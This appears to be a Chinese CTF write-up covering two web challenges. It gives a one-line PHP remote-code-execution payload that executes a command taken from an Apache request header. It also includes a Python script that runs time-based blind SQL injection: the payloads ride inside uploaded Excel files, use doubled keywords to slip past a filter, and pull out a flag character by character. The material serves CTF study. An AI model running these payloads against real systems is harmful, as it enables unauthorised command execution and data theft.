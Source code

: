 
# web
### Mercy-code
#无参rce
参考这篇[文章](https://xz.aliyun.com/t/9360#toc-0)
*payload*
`cmd=system(end(apache_request_headers()));`
仅当服务器为apache时可行

### sql_ctfer
#sql 
```python
import xlwt  
import requests  
import time  
url="http://IP:PORT/index.php?id=1%27"  
def write_execl(ord_id):  
 wb = xlwt.Workbook();  
 ws = wb.add_sheet("sheet1")  
 ws.write(0,0,ord_id)  
 ws.write(0,1,'b')  
 ws.write(0,2,'c')  
 wb.save("ok.xls")  
def sqli():  
 flag=''  
 sql_str="abcdeflagQWERTYUIOPASDFGHJKLZXCVBNM1234567890-{}"  
 for i in range(1,20):  
  for s in sql_str:  
   startTime=time.time()  
   sql_payload="123123' oorr case when(substr((selselectect group_concat(flag) from flag) from {} foorr 1 )='{}') then sleep(5) else 1 end -- a".format(i,s)  
   print(sql_payload)  
   write_execl(sql_payload)  
   file={'file':open('ok.xls','rb')}  
   r=requests.post(url,files=file)  
   if time.time()-startTime>4:  
    print(s)  
    flag=flag+s  
    break  
 print(flag)  
sqli()
```

# reverse

# pwn

# crypto

# Misc


---
## *相关wp*
ctfiot.com/42191.html



2023-05-24   19:41